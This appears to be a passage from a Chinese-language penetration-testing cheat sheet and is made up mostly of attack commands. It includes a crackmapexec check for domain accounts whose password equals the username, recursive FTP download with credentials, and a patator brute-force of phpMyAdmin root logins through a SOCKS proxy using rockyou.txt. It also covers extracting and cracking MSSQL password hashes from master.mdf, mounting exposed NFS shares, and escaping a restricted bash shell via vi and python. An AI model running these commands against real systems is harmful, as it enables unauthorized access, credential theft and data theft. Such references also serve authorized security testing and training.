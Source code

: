 ### **7. 检查是否存在用户弱口令? (username = password)**

```
crackmapexec smb <any ip in the domain> -u users.lst -p users.lst  -d domain --no-bruteforce
```

### **8. 递归下载FTP所有文件?**

```
wget -r <ftp://user:pass@serv>
```

### **9. 通过socks代理对phpmyadmin进行暴力破解?**

使用[Patator](https://github.com/lanjelot/patator)来进行操作

```
patator.py http_fuzz proxy_type=socks5 proxy=localhost:1080 url=http://IP/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&target=index.php&lang=en&token=' 0=/usr/share/wordlists/rockyou.txt before_urls=http://IP/index.php accept_cookie=1 follow=1 -x ignore:fgrep='Access denied for user '
```

## **常见端口漏洞**

### mssql（1433）

Microsoft SQL凭证存储在`master.mdf`中。下面是一个位置示例。

```
C:\\Program Files\\Microsoft SQL Server\\MSSQL14.SQLEXPRESS\\MSSQL\\Backup\\master.mdf
```

你可以使用PowerShell中的[Invoke-MDFHashes](https://github.com/xpn/Powershell-PostExploitation/tree/master/Invoke-MDFHashes)从mdf文件中检索哈希值。

```
Add-Type -Path 'OrcaMDF.RawCore.dll'
Add-Type -Path 'OrcaMDF.Framework.dll'
import-module .\\Get-MDFHashes.ps1
Get-MDFHashes -mdf "C:\\Users\\admin\\Desktop\\master.mdf"
```

然后，john可以用来破解哈希值。

### **NFS+RPCbind**

#### **mount**

```
#查询可用目录
showmount -e <IP>

#挂载
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock

mkdir /mnt/new_back
mount -t nfs [-o vers=2] 10.12.0.150:/backup /mnt/new_back -o nolock
#bypass rbash
vi
:set shell=/bin/sh

python -c 'import os; os.system("/bin/sh");'
python3 -c 'import os; os.system("/bin/sh");'

#tftp
import tftpy
client = tftpy.TftpClient(<ip>, <port>)
```